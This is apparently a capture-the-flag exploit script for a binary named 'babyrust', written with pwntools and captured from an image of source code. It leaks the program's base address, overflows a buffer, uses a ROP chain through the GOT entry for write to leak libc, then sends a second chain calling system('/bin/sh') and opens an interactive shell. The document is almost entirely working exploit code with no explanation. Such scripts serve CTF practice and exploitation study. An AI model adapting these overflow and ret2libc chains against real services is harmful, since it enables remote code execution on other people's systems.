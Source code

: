 ```
# set three arguments
def three_arg_chain(a,b,c):
    r = ROP([exe])
    return flat(
    r.find_gadget(['pop rdi','ret'])[0],
    a,
    r.find_gadget(['pop rsi', 'ret'])[0],
    b,
    r.find_gadget(['pop rcx','ret'])[0],
    c,
    exe.address + 0x2fc23, #  mov rdx, rcx ; pop rcx ; ret ;
    0x69696969)

# call *p (useful for calling GOT functions)
def call_ptr(p):
    r = ROP([exe])
    return flat(
    r.find_gadget(['pop rcx','ret'])[0],
    p,
    exe.address + 0x36157 # jmp qword [rcx] ;
    )
    
def main():
    global p
    p = conn()
    
    p.readuntil(b'Magic: ')
    leak = int(p.readline(),16)
    exe.address = leak - exe.sym['_ZN8babyrust5MAGIC17h48b2c6b515a9771cE']
    info(f"{exe.address=:#x}")
    
    exe_writable_area = exe.address + 331776
    
    # info(f"{exe.plt['mprotect']=:#x}")
    
    p.sendlineafter(b"Give me your overflow: ",cyclic(448) + flat(
    three_arg_chain(1,exe.got['write'],8),
    call_ptr(exe.got['write']),
    exe.address+0x601a, # ret (stack alignment)
    exe.address+0x601a, # ret (stack alignment)
    exe.address+0x601a, # ret (stack alignment)
    exe.address+0x601a, # ret (stack alignment)

    exe.sym['_ZN8babyrust4main17h57a652059325662bE'],
    
    ))

    libc_leak = u64(p.recvn(8))
    
    info(f"{libc_leak=:#x}")
    
    libc.address = libc_leak - libc.sym['write']
    
    info(f"{libc.address=:#x}")
    
    r = ROP([exe,libc])
    r.raw(r.find_gadget(["ret"])[0])
    binsh = next(libc.search(b"/bin/sh\0"))
    r.system(binsh) 
    
    p.sendlineafter(b"Give me your overflow",cyclic(448)+ r.chain())
    
    p.interactive() # PLIMB's up!
```